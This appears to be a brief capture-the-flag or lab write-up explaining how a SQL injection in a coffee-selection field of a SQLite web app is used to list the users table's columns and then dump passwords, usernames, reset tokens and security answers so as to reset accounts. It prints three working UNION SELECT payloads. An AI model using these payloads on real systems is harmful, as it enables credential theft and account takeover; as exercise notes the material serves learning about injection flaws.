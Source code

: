 - sql injection on the coffee selection
- table users holds all users, but need to know which column holds the "favorite animal" data, can't guess this

```
1 UNION SELECT cid, type, name FROM pragma_table_info('users')
```
returns the columns in the table users -> found out that favorite animal is in column "security"

then
```
1 UNION SELECT password, username, reset_token FROM users
```
leaks the reset token of all users and

```
1 UNION SELECT password, username, security FROM users
```

leaks the favorite animal of all users, can reset password now